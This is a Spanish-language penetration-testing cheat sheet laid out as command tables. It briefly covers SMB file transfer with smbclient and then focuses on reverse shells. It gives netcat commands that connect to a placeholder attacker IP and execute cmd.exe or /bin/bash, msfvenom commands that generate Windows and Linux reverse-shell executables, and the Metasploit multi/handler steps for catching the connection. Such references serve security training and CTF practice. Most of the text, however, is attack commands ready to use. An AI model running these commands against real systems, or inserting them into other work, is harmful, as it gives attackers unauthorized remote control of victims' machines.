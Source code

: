 | **Comando**                                                                 | **Descripción** |
|-----------------------------------------------------------------------------|-----------------|
| `smbclient //10.10.10.10/share -U user`                                      | Conectarse a un recurso compartido SMB y transferir archivos utilizando `smbclient`. Una vez dentro del recurso compartido, puedes usar comandos como `get` para descargar y `put` para cargar archivos. |
| `smbclient //10.10.10.10/share -U user -c "get file.txt"`                    | Descargar un archivo `file.txt` desde un recurso compartido SMB especificado. |

# Reverse Shell

## Netcat
Netcat es una herramienta muy útil para establecer conexiones de red. Se usa comúnmente para obtener shells inversos. Aquí algunos ejemplos comunes:

| **Comando**                       | **Descripción**                                             |
|-----------------------------------|-------------------------------------------------------------|
| `nc -nlvp 443`                    | Inicia un listener en el puerto 443 (escucha de forma pasiva).|
| `nc.exe 10.10.10.10 444 -e cmd.exe` | Conectar a una máquina remota en 10.10.10.10 por el puerto 444 y ejecutar `cmd.exe` (Windows).|
| `nc -e /bin/bash 10.10.10.10 4444` | Conecta a un host remoto y ejecuta bash (Linux).             |
| `nc -lvp 4444`                    | Inicia Netcat en modo escucha en el puerto 4444.             |

### Explicación:
- `-l` : Indica que Netcat debe escuchar (modo servidor).
- `-v` : Modo verboso, para ver detalles de la conexión.
- `-p` : Especifica el puerto.
- `-e` : Indica el programa que se debe ejecutar al recibir una conexión.

## Metasploit
Metasploit es una de las herramientas más completas para explotación, incluyendo la generación de payloads para reverse shells. Los ejemplos a continuación muestran cómo generar un reverse shell en sistemas Windows.

| **Comando**                                                     | **Descripción**                                                                                  |
|-----------------------------------------------------------------|--------------------------------------------------------------------------------------------------|
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > shell.exe` | Genera un payload para Windows que conecta de vuelta a la IP `10.10.10.10` en el puerto 443. Guarda el payload en `shell.exe`. |
| `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell.elf` | Genera un payload para Linux (32 bits), que conecta de vuelta al atacante en el puerto 4444. |
| `msfconsole`                                                   | Inicia Metasploit Framework. Desde aquí, puedes cargar el payload, configurarlo y explotarlo.    |
| `use exploit/multi/handler`                                     | Carga el módulo de Metasploit para manejar el payload generado y esperar conexiones entrantes.  |
| `set PAYLOAD windows/shell_reverse_tcp`                         | Configura el tipo de payload para un shell inverso en sistemas Windows.                           |
| `set LHOST 10.10.10.10`                                         | Establece la IP del atacante para que el payload se conecte a esta dirección.                    |
| `set LPORT 4444`                                                | Establece el puerto de escucha en el atacante.                                                   |
| `exploit`                                                       | Ejecuta el exploit, esperando la conexión del payload.                                           |
